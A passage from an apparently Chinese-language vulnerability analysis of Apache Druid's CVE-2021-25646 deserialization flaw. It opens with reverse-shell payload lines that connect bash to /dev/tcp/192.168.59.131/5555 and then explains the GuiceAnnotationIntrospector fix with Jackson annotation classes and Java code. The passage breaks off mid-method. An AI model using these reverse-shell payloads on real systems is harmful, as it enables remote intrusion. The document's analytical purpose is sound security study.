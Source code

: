       ```shell
      echo bash -i >& /dev/tcp/192.168.59.131/5555 0>&1 | bash
      ```
  
    * 此时命令为echo，它将此时管道符前的所有命令行参数作为自己的命令行参数进行执行，将其后所有内容作为字符串打印
  
      ```shell
      bash -c bash -i >& /dev/tcp/192.168.59.131/5555 0>&1
      ```
  
    * 此时转化为了最初始的Payload

### 5、为什么使用GuiceAnnotationIntrospector可以解决Druid的反序列化漏洞？

* 继承关系

  * GuiceAnnotationIntrospector-->NopAnnotationIntrospector-->AnnotationIntrospector
  * AnnotationIntrospector定义了基于注解的序列化操作和反序列化操作的内省API，通过这些API可以是其支持大量不同的注解。
  * NopAnnotationIntrospector是AnnotationIntrospector的空实现，其同样是一个抽象类，在进行自定义实现时，最好继承NopAnnotationIntrospector，而不是直接继承AnnotationIntrospector
  * GuiceAnnotationIntrospector重写了findInjectableValueId方法和findPropertyIgnorals方法，其中findPropertyIgnorals用于解决CVE-2021-25646远程代码执行漏洞

* 相关类

  * `@JsonIgnoreProperties`注解用于在序列化和反序列化过程中屏蔽掉指定字段

  * `AnnotatedParameter`-->`AnnotatedMember`-->`Annotated`

    * Annotated是一个通向的基类(抽象类)，其实现类均会被存放在AnnotationMap中
      * 其内部有一个方法`hasAnnotation(Class<?> acls)`用于判断当前Annotated对象上是否带有某个指定注解
    * AnnotatedMember是一个中间基类(抽象类)
      * 其实现类为类的字段、方法、构造器等
      * 其内部有一个AnnotationMap类型的属性，其名称为 _annotations，其内部存储了当前AnnotatedMember对象上所附带的注解
    * AnnotatedParameter是一个具体类，其代表了方法参数

  * `JacksonAnnotationValue`接口，其内部仅有一个valueFor方法，用于获取当前JacksonAnnotationValue对象的值来源于哪个注解

    ```java
    public interface JacksonAnnotationValue<A extends Annotation> {
        public Class<A> valueFor();
    }
    ```

  * `@JsonIgnoreProperties.Value`是一个实现了JacksonAnnotationValue接口的内部类，其内部有二十多个方法

    ```java
    @Override
    public Class<JsonIgnoreProperties> valueFor() {
        return JsonIgnoreProperties.class;
    }
    ```
	
* 代码

    ```java
    @Override
    public JsonIgnoreProperties.Value findPropertyIgnorals(Annotated ac)
    {
        if (ac instanceof AnnotatedParameter) {
            final AnnotatedParameter ap = (AnnotatedParameter) ac;
            if (ap.hasAnnotation(JsonProperty.class)) {
                return JsonIgnoreProperties.Value.empty();
            }
        }
  